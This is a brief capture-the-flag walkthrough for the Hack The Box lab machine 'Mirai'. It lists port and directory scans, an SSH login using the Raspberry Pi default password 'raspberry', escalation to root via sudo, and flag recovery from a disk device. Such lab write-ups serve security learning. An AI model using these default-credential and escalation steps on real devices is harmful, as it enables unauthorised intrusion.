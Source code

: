 # ****10.10.10.48 - Mirai****

```bash
rustscan -a 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/53f36f81-47ca-43ad-8798-5e5dec19eb56)

```bash
gobuster dir -w directory-list-2.3-medium.txt -u [http://10.10.10.48](http://10.10.10.48/) -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ffdc4848-0b5d-4a2c-be85-171369c50aa4)

```bash
nmap -A -p 22,53,80,1337,32400,32469 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5263a3cc-8384-477f-91bb-7eabe0323c24)

http://10.10.10.48/admin/index.php?login
![image](https://github.com/lufffe/Writeups/assets/90646635/8cb32f4e-c6a3-48e6-be56-10188ed73861)

![image](https://github.com/lufffe/Writeups/assets/90646635/c3314b7b-2017-42c0-979e-2ead5a3d4f56)

![image](https://github.com/lufffe/Writeups/assets/90646635/3691c423-5290-47e9-911f-628803f7dd91)

```bash
ssh pi@10.10.10.48 
```
password: raspberry

```bash
cat user.txt
```

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/96f15caa-5ec4-4b1b-9b3f-77cedf5f42f3)

```bash
sudo su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6f5c6af4-28d6-4752-b8e5-cf126b8b85de)

```bash
cat damnit.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bc47bb52-b339-41b5-acb3-b6e453f69cb8)

```bash
strings /dev/sdb
```

